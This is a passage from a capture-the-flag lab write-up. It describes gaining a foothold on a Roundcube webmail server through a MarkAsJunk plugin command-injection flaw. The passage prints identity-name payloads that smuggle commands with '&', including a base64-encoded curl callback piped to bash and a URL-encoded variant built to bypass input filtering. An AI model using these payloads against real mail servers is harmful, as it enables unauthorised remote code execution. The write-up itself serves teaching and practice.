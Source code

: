 Using these credentials (I'll use the admin's credentials), we are able to log in to the Roundcube instance.

![](/images/vulnlab/hybrid-vl/c.png)

# MarkasJunk RCE

Upon looking around, I've stumbled across an email that `admin` has sent to `peter.turner`, entailing that they'll be enabling a Junk plugin on the Roundcube server.

![](/images/vulnlab/hybrid-vl/d.png)

Not only that, but it seems we have another user named `Ed` who we might potentially get access to later. Just something to note down.

This points us to our attack path to get foothold - RCE.

Upon doing some research on this junk filter plugin, I found record of a CVE that allows you to get unauthorized remote code execution by configuring the user's name, sending an email, and then sending the mail to the junk folder. https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/

This essentially allows us to trigger an arbitrary command in the user's name due to a lack of filtering when this version of Roundcube is parsing an email. The article provided above entails the specifics on why this is the case, however it's really just important to note right now that we can execute commands by adding a `&` before and after our command in our email name so that Roundcube parses it incorrectly.

Let's head over to `Compose > Edit Identities` (the little pencil icon next to our email) to perform this exploit.

If we try to add a command regularly as we interpreted above, such as:

`admin&curl http://10.8.0.173:9001/&@hybrid.vl`

Roundcube will tell us that our email address is invalid. While we could spend more time trying to understand specifically what characters it has on its blacklist, we can instead just push our commands in base64. I also found success in doing this in Burpsuite and URL encoding all special characters. This can be done in Burpsuite by capturing the request and then editing the `email` value.

After messing around with a `curl` test payload, I managed to develop the following:

The command we are trying to execute is `curl http://10.8.0.173`, which I'm using to see if we can generate a callback to a simple Python server I'll stand up on our local machine. This brings us to the example name I've constructed below.
`admin&echo${IFS}Y3VybCBodHRwOi8vMTAuOC4wLjE3Mzo5MDAxLwo=|base64${IFS}-d|bash&@hybrid.vl`

We'll also want to URL encode any characters so they can bypass any blacklists that Roundcube is attempting to detect on the front-end, and also so that Burpsuite can parse them correctly.
`admin%26echo${IFS}Y3VybCBodHRwOi8vMTAuOC4wLjE3Mzo5MDAxLwo%3d|base64${IFS}-d|bash%26%40hybrid.vl`

![](/images/vulnlab/hybrid-vl/e.png)

Upon submitting the request, we can see that our name is accepted despite having special characters in it.

![](/images/vulnlab/hybrid-vl/f.png)
